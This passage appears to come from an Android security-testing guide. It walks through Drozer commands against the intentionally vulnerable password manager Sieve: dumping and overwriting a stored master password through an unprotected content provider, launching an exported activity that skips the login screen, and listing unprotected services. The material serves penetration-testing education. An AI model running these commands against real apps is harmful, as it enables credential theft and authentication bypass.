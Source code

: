 ```text
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/
| Password          | pin  |
| SuperPassword1234 | 1234 |
```

This content provider can be accessed without permission.

```text
dz> run app.provider.update content://com.mwr.example.sieve.DBContentProvider/Keys/ --selection "pin=1234" --string Password "newpassword"
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/
| Password    | pin  |
| newpassword | 1234 |
```

#### Activities

To list activities exported by an application, use the module `app.activity.info`. Specify the target package with `-a` or omit the option to target all apps on the device:

```text
dz> run app.activity.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
  com.mwr.example.sieve.FileSelectActivity
    Permission: null
  com.mwr.example.sieve.MainLoginActivity
    Permission: null
  com.mwr.example.sieve.PWList
    Permission: null
```

Enumerating activities in the vulnerable password manager "Sieve" shows that the activity `com.mwr.example.sieve.PWList` is exported with no required permissions. It is possible to use the module `app.activity.start` to launch this activity.

```text
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
```

Since the activity is called directly in this example, the login form protecting the password manager would be bypassed, and the data contained within the password manager could be accessed.

#### Services

Services can be enumerated with the Drozer module `app.service.info`:

```text
dz> run app.service.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
  com.mwr.example.sieve.AuthService
    Permission: null
  com.mwr.example.sieve.CryptoService
    Permission: null
```

To communicate with a service, you must first use static analysis to identify the required inputs.
